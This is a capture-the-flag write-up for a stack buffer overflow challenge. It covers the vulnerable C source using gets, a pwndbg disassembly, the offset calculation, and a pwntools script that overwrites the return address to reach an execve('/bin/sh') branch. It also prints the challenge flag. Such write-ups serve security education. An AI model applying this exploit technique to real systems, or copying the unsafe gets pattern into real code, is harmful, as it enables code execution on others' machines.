



# Overlow keep flowing
<p align="center">
  
</p>

## FLAG:
`GPNCTF{1_h0p3_y0u_d1dn't_actually_bu1ld_a_r0p_cha1n}`

## Solution
The challenge provides the following source code in the [attachment](Attachments/overflows-keep-flowing.tar.gz):

```c
#include <stdio.h>
#include <stdlib.h>

// gcc -no-pie -fno-stack-protector -o overflows-keep-flowing overflows-keep-flowing.c

void shutoff(long long int arg1) {
	printf("Phew. Another accident prevented. Shutting off %lld\n", arg1);
	if (arg1 == 0xdeadbeefd3adc0de) {
		execve("/bin/sh", NULL, NULL);
	} else {
		exit(0);
	}
}

int main() {
	char buf[0xff];
	gets(buf);
	puts(buf);
	return 0;
}
```

The program is very simple as it uses `gets` and `puts` to fill and print a limited size buffer. The problem consists in the fact that no checks are made on the input that is inserted, this leads to the possibility of overloading the buffer by altering the stack and thus controlling the execution flow. The purpose of the challenge is to exploit the *buffer overflow* to overwrite the return address with the address of the `shutoff` function so as to have a shell. Also, `0xdeadbeefd3adc0de` must be passed as an argument to the function for the shell to be called. To do this you need to figure out how many characters you need to enter before the return address is actually overwritten.

```assembly
pwndbg> disass main
Dump of assembler code for function main:
   0x0000000000401212 <+0>:     endbr64
   0x0000000000401216 <+4>:     push   rbp
   0x0000000000401217 <+5>:     mov    rbp,rsp
   0x000000000040121a <+8>:     sub    rsp,0x100
   0x0000000000401221 <+15>:    lea    rax,[rbp-0x100]
   0x0000000000401228 <+22>:    mov    rdi,rax
   0x000000000040122b <+25>:    mov    eax,0x0
   0x0000000000401230 <+30>:    call   0x4010b0 <gets@plt>
   0x0000000000401235 <+35>:    lea    rax,[rbp-0x100]
   0x000000000040123c <+42>:    mov    rdi,rax
   0x000000000040123f <+45>:    call   0x401080 <puts@plt>
   0x0000000000401244 <+50>:    mov    eax,0x0
   0x0000000000401249 <+55>:    leave
   0x000000000040124a <+56>:    ret
End of assembler dump.
```

Analyzing the decompiled code we can observe that 256 bytes (0x100) are reserved for the buffer (i.e. 255 for input + 1 null byte to identify the end of the string), to which we must add another 8 bytes to overwrite the pointer contained in the register *rbp* (Return Base Pointer). We can verify the correctness of what has been said through the use of *pwndbg* by inserting a payload of 264 and viewing the contents of the register.

<p align="center">
  
</p>

At this point we should understand how to pass the value `0xdeadbeefd3adc0de` as an argument to the `shutoff` function to pass the check. But, having control of the execution flow, we can make the program not go to check and then enter the execution branch of the shell.

<p align="center">
  
</p>

Analyzing the decompiled code of the `shutoff` function we can understand what is the distance, from the base address, of the first instruction that identifies the branch that executes the shell (boxed in red).

To automate what has been said, the following [script](Attachments/solve.py) was created.

```python
from pwn import *

if args.DEBUG:
    p = gdb.debug("./overflows-keep-flowing")
elif args.REMOTE:
    p = remote('overflows-keep-flowing-0.chals.kitctf.de', 1337, ssl=True)
else:
    p = process("./overflows-keep-flowing")
    if args.GDB:
        gdb.attach(p, gdbscript="""
            break main
        """)

exe = context.binary = ELF("./overflows-keep-flowing", checksec=False)
shutoff = p64(exe.symbols.shutoff + 56)

p.sendline(b"A" * (256 + 8) + shutoff)

p.interactive()
```